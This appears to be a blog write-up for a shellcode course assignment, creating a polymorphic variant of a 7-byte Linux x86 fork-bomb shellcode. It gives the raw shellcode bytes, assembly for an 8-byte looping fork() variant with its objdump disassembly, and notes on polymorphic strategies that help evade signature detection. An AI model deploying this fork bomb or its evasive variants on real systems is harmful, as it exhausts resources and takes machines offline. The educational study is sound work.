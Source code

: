 The shellcode is only 7 bytes long ("\x6a\x02\x58\xcd\x80\xeb\xf9"), so our
variants can't be longer than 10,5 bytes. This will limit us very hard when
creating the generator script.

### First variation

The idea behind this variation is super easy: put in EAX the value 2 and call
INT 0x80 then repeat in a loop the whole process.

The first easy variation is not using the push/pop technique to init EAX, but
XOR-ing the register and moving 0x2 instead.

{%highlight assembly%}
section .text
global _start

_start:
	xor eax, eax
	mov al, 0x2
    
	int 0x80
	jmp short _start
{%endhighlight%}

This results in a 8 bytes shellcode, so just 1 bytes more than the original one:

{%highlight asm%}
thesp0nge@SLAE /media/sf_SLAE_Course/SLAE/Assignment_6/fork
 % objdump -d forkbomb_variant

forkbomb_variant:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	31 c0                	xor    %eax,%eax
 8048082:	b0 02                	mov    $0x2,%al
 8048084:	cd 80                	int    $0x80
 8048086:	eb f8                	jmp    8048080 <_start>
{%endhighlight%}

{%asciicast 198406 %}

Now, let's create our polymorphic generator script for fork bombing shellcode.

### Shuffle it!

Unfortunately, the shellcode is too short to shuffle operands. So this strategy
doesn't work this time.

![Can't shuffle this time]({{site.url}}/assets/images/fork_no_shuffle.png)

### Add some NOPs

Even this strategy lacks of interest. In our variation, the MOV instruction
**must** be executed after the XOR and both of them, they must be executed
right before the INT.
